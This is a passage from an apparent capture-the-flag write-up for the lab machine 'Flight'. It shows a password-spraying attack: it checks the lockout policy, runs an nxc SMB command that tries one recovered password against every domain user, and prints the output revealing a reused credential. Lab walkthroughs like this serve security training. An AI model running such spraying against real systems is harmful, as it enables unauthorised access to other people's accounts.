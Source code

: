 ```shell
SMB         10.129.228.120  445    G0               Account Lockout Threshold: None
SMB         10.129.228.120  445    G0               Forced Log off Time: Not Set
```

Notice that the value of Account Lockout Threshold is None. This is the green light we need before starting a Password Spraying attack.

Lets use the password of svc_apache and check for credentials reuse:

```shell
nxc smb 10.129.228.120 -u domain_users.txt -p 'S@Ss!K@*t13' --continue-on-success
```

```shell
SMB         10.129.228.120  445    G0               [*] Windows 10 / Server 2019 Build 17763 x64 (name:G0) (domain:flight.htb) (signing:True) (SMBv1:False)
SMB         10.129.228.120  445    G0               [-] flight.htb\Name:S@Ss!K@*t13 STATUS_LOGON_FAILURE 
SMB         10.129.228.120  445    G0               [-] flight.htb\--------------------:S@Ss!K@*t13 STATUS_LOGON_FAILURE
SMB         10.129.228.120  445    G0               [-] flight.htb\Administrator:S@Ss!K@*t13 STATUS_LOGON_FAILURE 
SMB         10.129.228.120  445    G0               [-] flight.htb\Guest:S@Ss!K@*t13 STATUS_LOGON_FAILURE 
SMB         10.129.228.120  445    G0               [-] flight.htb\krbtgt:S@Ss!K@*t13 STATUS_LOGON_FAILURE 
SMB         10.129.228.120  445    G0               [+] flight.htb\S.Moon:S@Ss!K@*t13 
SMB         10.129.228.120  445    G0               [-] flight.htb\R.Cold:S@Ss!K@*t13 STATUS_LOGON_FAILURE 
SMB         10.129.228.120  445    G0               [-] flight.htb\G.Lors:S@Ss!K@*t13 STATUS_LOGON_FAILURE 
SMB         10.129.228.120  445    G0               [-] flight.htb\L.Kein:S@Ss!K@*t13 STATUS_LOGON_FAILURE 
SMB         10.129.228.120  445    G0               [-] flight.htb\M.Gold:S@Ss!K@*t13 STATUS_LOGON_FAILURE 
SMB         10.129.228.120  445    G0               [-] flight.htb\C.Bum:S@Ss!K@*t13 STATUS_LOGON_FAILURE 
SMB         10.129.228.120  445    G0               [-] flight.htb\W.Walker:S@Ss!K@*t13 STATUS_LOGON_FAILURE 
SMB         10.129.228.120  445    G0               [-] flight.htb\I.Francis:S@Ss!K@*t13 STATUS_LOGON_FAILURE 
SMB         10.129.228.120  445    G0               [-] flight.htb\D.Truff:S@Ss!K@*t13 STATUS_LOGON_FAILURE 
SMB         10.129.228.120  445    G0               [-] flight.htb\V.Stevens:S@Ss!K@*t13 STATUS_LOGON_FAILURE 
SMB         10.129.228.120  445    G0               [+] flight.htb\svc_apache:S@Ss!K@*t13 
SMB         10.129.228.120  445    G0               [-] flight.htb\O.Possum:S@Ss!K@*t13 STATUS_LOGON_FAILURE
```

Nice! It seems like the user S.Moon is using the same password. This gave us the following new credentials:

```shell
S.Moon:S@Ss!K@*t13
```
